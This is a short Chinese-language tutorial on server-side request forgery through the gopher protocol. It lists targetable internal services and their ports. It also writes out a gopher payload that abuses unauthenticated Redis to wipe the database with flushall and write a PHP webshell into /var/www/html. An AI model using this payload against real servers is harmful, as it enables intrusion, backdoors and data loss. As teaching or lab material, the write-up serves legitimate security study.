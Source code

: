 ## Gopher 协议

在 http 出现之前，访问网页需要输入的是 

gopher://gopher.baidu.com/ 

而不是

https://www.baidu.com/

而它被代替的原因一方面是收费，另一方面的原因是它固化的结构没有HTML网页灵活

利用 gopher 的方式有 FTP 爆破，REDIS，MYSQL，FAST CGI，XXE



## 一些常用服务

Redis	6379

FPM	  9000

Smtp	 25

Mysql	3306

常用的协议

dict 、gopher

以下为经典的 Redis 未授权访问，以及常用 payload 的生成



## 利用方式

比如常见的，web 有一个 curl 的功能，然后可以访问内网靶机，就可以用类似的方式进行命令传递

( payload 每经过一次传递就会被解码一次 )

redis

![3](/images/ssrf-gopher/3.png)

Smtp 生成 payload

![1](/images/ssrf-gopher/1.png)

Fpm 生成 payload

![2](/images/ssrf-gopher/2.png)

gopher支持多行。因此要在传输的数据前加一个无用字符。比如 gopher://ip:port/_ 通常用 _ 并不是只能用 _ ，gopher协议会吃掉第一个字符



## 关于 redis

redis 的格式：每一个 *number 代表每一行命令，number 代表每行命令中数组中的元素个数。$number 代表每个元素的长度。

URL解码后可以看到创建 shell 的完整流程

```gopher://127.0.0.1:6379/_*1
$8							//元素长度为8
flushall
*3							//3个元素
$3
set
$1
1
$31

<?php echo "hello world" ?>

*4
$6
config
$3
set
$3
dir
$13
/var/www/html
*4
$6
config
$3
set
$10
dbfilename
$9
shell.php
*1
$4
save
```

即为redis将输入的语句保存在指定位置的php文件中，生成后门

